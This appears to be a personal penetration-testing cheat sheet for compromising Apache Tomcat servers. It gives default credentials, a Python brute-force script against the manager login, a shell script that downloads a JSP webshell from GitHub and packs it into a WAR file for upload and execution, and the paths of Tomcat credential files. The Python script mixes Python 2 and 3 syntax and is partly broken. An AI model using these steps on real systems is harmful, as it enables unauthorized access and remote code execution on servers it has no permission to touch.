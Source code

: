 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Login
Try `tomcat : s3cret`

If not successful, try this list:
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt

```python - kali
#!/usr/bin/env python
import sys
import requests

with open('tomcat-betterdefaultpasslist.txt') as f:
    for line in f:
        c = line.strip('\n').split(":")
        r = requests.get('http://$TARGET:8080/manager/html', auth=(c[0], c[1]))
        
        if r.status_code == 200:
            print "Found valid credentials \"" + line.strip('\n') + "\""
            raise sys.exit()
```

#### Malicious war upload

[[0._Reverse shells (WEB)#jar war]]

![[Pasted image 20220620190612.png]]

OR

wshell.sh
```bash - kali
#!/bin/sh 

wget https://raw.githubusercontent.com/tennc/webshell/master/jsp/jspbrowser/Browser.jsp -O index.jsp 

rm -rf wshell 
rm -f wshell.war 
mkdir wshell 
cp index.jsp wshell/ 
cd wshell 
jar -cvf ../wshell.war *
```

![[rlwrap]]

Upload and execute.


#### Configuration file
`/opt/tomcat/conf/tomcat-users.xml'

`/usr/share/tomcat9/conf/tomcat-users.xml`


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
